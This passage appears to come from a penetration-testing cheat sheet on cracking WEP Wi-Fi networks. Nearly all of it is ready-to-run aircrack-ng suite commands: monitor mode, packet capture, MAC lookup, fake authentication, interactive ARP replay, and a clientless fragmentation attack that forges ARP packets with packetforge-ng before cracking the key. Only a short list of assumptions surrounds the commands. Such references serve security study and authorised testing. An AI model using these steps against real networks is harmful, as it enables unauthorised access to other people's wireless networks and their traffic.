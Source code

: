 ```
# Start monitor mode
airmon-ng start <INTERFACE>

# Packet capture
airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# Get your MAC address
macchanger --show <INTERFACE>

# Fake authentication attack
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>

# Interactive packet replay attack
aireplay-ng -2 -b <BSSID> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <INTERFACE>

or

# Interactive packet replay attack with a capture file
aireplay-ng -2 -r replay_src-<FILE_NAME>.cap <INTERFACE>

# Crack 
aircrack-ng <CAPTURE_NAME>
```

### Cracking Clientless WEP Networks

Some assumptions :

- You are close enough to the AP to send and receive packets. Just because you are close enough to receive packets does not necessarily mean you will be able to transmit packets to the access point.
- There are some data packets coming from the AP. Beacons and management frames are useless for these attacks. A quick way to check for data packets is to run Airodump-ng and see if the #Data field is increasing.
- The AP is using WEP open authentication. If it is running shared key authentication, the only way to execute this attack is to use a previously captured PRGA XOR handshake.

#### Fragmentation Attack

```
# Start monitor mode
airmon-ng start <INTERFACE>

# Packet capture
airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# Get your MAC address
macchanger --show <INTERFACE>

# Fake authentication attack
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>

# Fragmentation attack
aireplay-ng -5 -b <BSSID> -h <YOUR_MAC> <INTERFACE>

# Forging ARP packet with the xor packet from fragmentation attack
packetforge-ng -0 -a <BSSID> -h <YOUR_MAC> -k 255.255.255.255 -l 255.255.255.255 -y <FRAGMENT_PACKET>.xor -w <ARP_PACKET_NAME>

# Interactive packet replay attack with the forge ARP packet
aireplay-ng -2 -r <ARP_PACKET_NAME> <INTERFACE>

# Crack 
aircrack-ng <CAPTURE_NAME>
```
